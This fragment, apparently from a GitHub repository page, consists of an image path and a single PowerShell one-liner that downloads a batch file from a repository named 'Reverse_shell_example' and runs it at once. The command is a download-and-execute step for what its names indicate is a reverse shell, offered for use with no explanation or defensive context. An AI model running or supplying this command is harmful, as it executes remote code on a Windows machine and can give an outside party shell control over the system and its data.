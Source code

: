 powershell -Command "(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/JustOfPlay/Reverse_shell_example/main/batch/rev_1.bat', 'C:\rev_1.bat'); Start-Process 'C:\rev_1.bat'"

